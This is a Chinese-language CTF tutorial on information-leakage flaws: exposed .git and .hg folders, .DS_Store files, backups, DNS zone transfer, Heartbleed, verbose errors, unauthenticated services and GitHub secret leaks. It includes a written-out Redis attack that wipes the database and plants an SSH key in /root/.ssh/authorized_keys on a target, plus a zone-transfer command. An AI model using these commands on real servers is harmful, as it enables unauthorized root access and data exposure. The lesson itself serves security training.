










# CTF夺旗赛教程：P53：信息泄漏 🔓


在本节课中，我们将要学习CTF比赛中常见的信息泄漏漏洞。这类漏洞通常是解题的第一步，通过它们，我们可以获取出题者留下的关键提示，从而为后续的解题环节铺平道路。

---

## 版本控制工具源码泄露 📂

上一节我们概述了信息泄漏的重要性，本节中我们来看看由版本控制工具配置不当导致的源码泄露问题。

### Mercurial (.hg) 源码泄露
Mercurial（HG）是一个分布式版本控制系统。在使用 `hg init` 初始化项目时，会在网站根目录下生成一个 `.hg` 隐藏文件夹，其中包含版本变更记录和配置信息。如果此文件夹随代码一同发布，则可能导致源码泄露。

**探测方法：**
*   直接访问网站根目录下的 `/.hg` 路径。
*   使用自动化工具 `DVCS-ripper` 进行探测。

### Git (.git) 源码泄露
Git 是广泛使用的版本控制系统。运行 `git init` 会在当前目录生成 `.git` 文件夹。若在发布代码时未删除此目录，攻击者可能利用它恢复完整的源代码。

**探测方法：**
*   访问网站根目录下的 `/.git` 路径或 `/.git/config` 文件。
*   使用自动化工具 `GitHack` 或 `DVCS-ripper` 进行利用。

### .DS_Store 文件泄露
.DS_Store 是 macOS 系统为文件夹保存显示属性（如图标位置、列表排序）而自动生成的隐藏文件。如果此文件随网站目录一同发布，可能会泄露目录内的文件名等敏感信息。

**探测方法：**
*   访问网站根目录下的 `/.DS_Store` 路径。
*   使用自动化工具 `ds_store_exp` 进行探测。

---

## 网站备份文件泄露 💾

在网站运维过程中，管理员可能为了方便，将整站或部分文件的备份压缩包存放在网站根目录下。这些文件往往使用常见的命名规则。

以下是常见的备份文件后缀名列表：
*   .rar
*   .zip
*   .7z
*   .tar
*   .gz
*   .bak
*   .swp
*   .txt
*   .html

**探测方法：**
*   使用扫描工具如 **AWVS** 或 **御剑珍藏版**，通过字典爆破来发现此类文件。
*   对于 `.swp` 文件（Vim编辑器的临时文件），可直接尝试访问（如 `index.php.swp`）或使用 `vim -r` 命令恢复源码。

---

## 应用服务层信息泄露 🛠️

上一节我们介绍了文件层面的信息泄露，本节中我们来看看运行中的应用服务可能产生的信息泄露。

### DNS域传送漏洞
DNS服务器在主备同步数据时使用“域传送”功能。如果配置不当（未正确限制 `allow-transfer` 指令），攻击者可以获取域名的所有子域名记录，从而扩大攻击面。



**利用示例：**
使用 `dig` 命令尝试进行域传送：
```bash
dig @dns.example.com example.com AXFR
```



### Heartbleed 心脏滴血漏洞
这是一个存在于 OpenSSL 库中的严重漏洞（CVE-2014-0160）。攻击者可以向支持 TLS/SSL 的服务器发送恶意构造的 Heartbeat 请求，从而读取服务器内存中的敏感信息，如用户会话Cookie、私钥等。

### 错误信息泄露
开发者未妥善处理异常，导致网站将详细的堆栈跟踪、数据库错误等信息直接返回给用户。这些信息可能暴露网站路径、框架类型（如 Struts2）、数据库结构甚至部分源代码。

**风险：** 攻击者可根据错误信息中暴露的框架类型，尝试利用其已知的远程代码执行漏洞。



---

## 未授权与弱凭证访问 🔑

在应用服务层面，配置缺陷导致攻击者无需或使用极弱凭证即可访问敏感功能或数据。



以下是四种常见类型：
1.  **未授权访问漏洞**：服务启动后未配置任何认证，允许任意用户直接访问。
2.  **弱口令漏洞**：配置了认证，但口令强度极低（如 `123456`、`admin`）。
3.  **空口令漏洞**：系统允许存在口令为空的用户账户，可直接登录。
4.  **硬编码凭证漏洞**：在系统代码或配置文件中固定写入了认证凭证（用户名/密码、API Key等），攻击者可利用此凭证绕过正常认证流程。



**高危服务列表：**
许多常见服务曾曝出未授权访问漏洞，包括：
*   NFS, Samba, LDAP, Rsync, FTP
*   Telnet, Jenkins, MongoDB, Redis
*   ZooKeeper, Elasticsearch, Memcached
*   CouchDB, Docker, Hadoop

**以Redis未授权访问为例：**
Redis默认监听6379端口且无认证。攻击者可连接并执行命令，例如写入SSH公钥到目标服务器的 `~/.ssh/authorized_keys` 文件，从而实现免密登录。
```bash
# 本地生成密钥对
ssh-keygen -t rsa
# 通过未授权Redis写入公钥
redis-cli -h target_ip flushall
redis-cli -h target_ip set crackit “$(cat ~/.ssh/id_rsa.pub)”
redis-cli -h target_ip config set dir /root/.ssh/
redis-cli -h target_ip config set dbfilename authorized_keys
redis-cli -h target_ip save
```

---

## GitHub 敏感信息泄露 📄

开发人员可能无意中将包含敏感信息的文件（如配置文件、数据库凭证、API密钥、SSH私钥）提交到公开的GitHub仓库中。

**利用方法：**
*   手动搜索特定关键词，如 `password`、`secret_key`、`database.yml`。
*   使用自动化工具进行扫描，例如：
    *   **GitHub 自身搜索**：使用高级搜索语法。
    *   **GSIL**：一个监控GitHub敏感信息泄露的工具。

---

## 文件句柄泄露 🚫

严格来说，这属于资源管理错误而非信息泄露。当程序打开文件（或网络连接等）后，未能正确关闭其句柄（Handle），会导致系统资源被持续占用。

**危害：** 攻击者可以反复触发该文件操作，耗尽服务器的文件句柄等资源，最终导致服务拒绝（DoS）。

**修复方案：** 在代码中确保每个打开的文件流，在操作完成后都被显式地关闭。
```python
# 存在泄露风险的代码
f = open(‘file.txt’, ‘r’)
data = f.read()
# 忘记 f.close()



# 修复后的代码
f = open(‘file.txt’, ‘r’)
try:
    data = f.read()
finally:
    f.close() # 确保资源被释放
# 或使用 with 语句自动管理
with open(‘file.txt’, ‘r’) as f:
    data = f.read()
```



---



## 总结 📝



本节课中我们一起学习了CTF中多种类型的信息泄漏漏洞：
1.  **文件层面泄露**：包括版本控制文件（`.git`/`.hg`）、系统文件（`.DS_Store`）和网站备份压缩文件。
2.  **服务配置泄露**：如DNS域传送漏洞和各类中间件的未授权/弱口令访问。
3.  **运行中泄露**：如Heartbleed漏洞和错误页面泄露的堆栈信息。
4.  **代码仓库泄露**：在GitHub等公开平台泄露的敏感配置和凭证。
5.  **资源泄露**：文件句柄未关闭导致的潜在DoS风险。




理解并掌握这些信息泄漏的发现与利用方法，是CTF入门和进行安全评估的基础技能。在实际场景中，它们往往是突破边界、获取初步立足点的关键。